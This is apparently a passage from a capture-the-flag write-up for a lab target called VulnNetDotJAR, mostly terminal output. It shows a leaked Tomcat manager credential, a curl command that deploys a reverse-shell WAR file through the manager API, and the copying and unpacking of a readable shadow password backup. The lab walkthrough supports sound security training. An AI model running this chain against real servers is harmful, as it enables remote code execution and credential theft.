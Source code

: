 <br>


```bash
 webdev:Hgj3LA$02D$Fa@21
```

<br>

<img width="1129" height="720" alt="image" src="https://github.com/user-attachments/assets/04938d49-0cde-46a5-a273-f31cad2e7035" />

<br>

<img width="1131" height="718" alt="image" src="https://github.com/user-attachments/assets/5f6dfabc-7515-44b5-bf3f-16ee778e6a7c" />


```bash
 webdev:Hgj3LA$02D$Fa@21
```

<br>

```bash
:~/VulnNetDotJAR# curl --upload-file rev.war -u webdev:'Hgj3LA$02D$Fa@21' 'http://dotjar.thm:8080/manager/text/deploy?path=/'
OK - Deployed application at context path [/rev.war]
```

<br>

<img width="1223" height="193" alt="image" src="https://github.com/user-attachments/assets/f8fd29d2-aaa1-4cbc-b672-6667b79e96ca" />

<br>

```bash
web@ip-10-201-69-245:/$ cd /home
web@ip-10-201-69-245:/home$ ls
jdk-admin  ssm-user  ubuntu  web
web@ip-10-201-69-245:/home$
```

<br>

```bash
web@ip-10-201-69-245:/$ ls -lah /var/backups/shadow-backup-alt.gz
-rw-r--r-- 1 root root 485 Jan 16  2021 /var/backups/shadow-backup-alt.gz
```

<br>

```bash
web@ip-10-201-69-245:/$ file /var/backups/shadow-backup-alt.gz
/var/backups/shadow-backup-alt.gz: gzip compressed data, was "shadow", last modified: Sat Jan 16 12:44:11 2021, from Unix, original size modulo 2^32 1179
```

<br>

```bash
web@ip-10-201-69-245:/dev/shm$ cp /var/backups/shadow-backup-alt.gz .
web@ip-10-201-69-245:/dev/shm$ gunzip shadow-backup-alt.gz
web@ip-10-201-69-245:/dev/shm$ ls
shadow-backup-alt
web@ip-10-201-69-245:/dev/shm$ file shadow-backup-alt
shadow-backup-alt: ASCII text
```
